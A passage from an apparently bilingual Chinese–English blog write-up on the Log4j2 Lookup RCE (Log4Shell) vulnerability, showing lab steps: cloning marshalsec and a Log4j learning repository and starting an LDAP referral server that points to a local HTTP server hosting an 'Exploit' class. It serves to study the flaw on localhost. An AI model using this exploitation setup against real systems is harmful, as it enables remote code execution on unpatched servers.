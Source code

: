 [# For simplicity, I start a web server directly with python]:#
[# Choose one of the following to start the http server, my machine is a python3 environment]:#

<center>
<img src="../assets/images/talk-about-the-lookup-rce-vulnerability-of-log4j2/figure-2.png" alt="Talk about the Lookup RCE vulnerability of Log4j2" title="Github of Anigkus">
</center>

再者启动LDAP服务器(客户端).

[Then start the LDAP server (client).]:#

```
#这个目录无所谓,可以不和有问题的代码在一个目录下
➜  ~ cd  /tmp/test/

#源代码自行编译
➜  test git clone https://github.com/mbechler/marshalsec

#使用已编译好的
➜  test git clone git@github.com:bkfish/Apache-Log4j-Learning.git
➜  test cd Apache-Log4j-Learning/tools
➜  test java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

[#This directory doesn't matter, it can not be in the same directory as the problematic code]:#
[#Compile the source code yourself]:#
[#Use the compiled]:#

<center>
<img src="../assets/images/talk-about-the-lookup-rce-vulnerability-of-log4j2/figure-3.png" alt="Talk about the Lookup RCE vulnerability of Log4j2" title="Github of Anigkus">
</center>
